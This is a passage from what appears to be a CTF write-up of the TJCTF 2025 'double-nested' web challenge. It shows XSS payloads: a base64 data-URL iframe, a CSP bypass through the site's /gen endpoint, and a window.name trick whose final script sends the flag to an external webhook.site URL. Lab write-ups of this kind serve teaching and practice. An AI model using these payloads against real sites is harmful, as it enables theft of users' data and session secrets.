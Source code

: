 The breakthrough came from realizing we could inject an iframe with a `data:` URL and base64-encoded content:

```html
<iframe src='data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=='></iframe>
```

But again, this script wouldn’t run due to CSP. So I generated JS dynamically via the `/gen` endpoint: `https://double-nested.tjc.tf/gen?query=alert(1)`

```html
https://double-nested.tjc.tf/?i=i=i=i=%3Ciframe%20src='data:text/html%3bbase64,PHNjcmlwdCBzcmM9J2h0dHBzOi8vZG91YmxlLW5lc3RlZC50amMudGYvZ2VuP3F1ZXJ5PWFsZXJ0KDEpJz48L3NjcmlwdD4='%3E%3C/iframe%3E
```

Base64 decodes to:

```html
<script src='https://double-nested.tjc.tf/gen?query=alert(1)'></script>
```

### Exfiltrating the Flag

Here’s the catch: the flag is appended to the top-level URL, but we're inside an iframe with a `data:` URL — **no direct access to `top.location` due to Same-Origin Policy (SOP).**

But there’s a clever workaround: **the `name` attribute** of an iframe can be set by the parent window and accessed from within the iframe.

Since the admin bot appends the flag to the URL, and our injected iframe has its `name` set by the rest of the URL, we can extract it from `window.name`.

### Final Payload

We encode a script that grabs `window.name` and sends it to our webhook:

```js
open(`https://webhook.site/<uuid>?flag=${window.name}`)
```

Then, we base64 encode the full payload:
```html
<script src='https://double-nested.tjc.tf/gen?query=open(`https://webhook.site/<uuid>?flag=${window.name}`)'></script>
```

And inject it via:
`https://double-nested.tjc.tf/?i=i=i=i=<iframe src='data:text/html;base64,[encoded_payload]' name=`

**The flag** is appended after the `name=` and gets embedded in the iframe’s `window.name`, which is then exfiltrated.

**Flag successfully retrieved via webhook**


![](https://github.com/jonathann403/jonathann403.github.io/blob/main/content/posts/TJCTF2025/Pasted%20image%2020250609175734.png?raw=true)
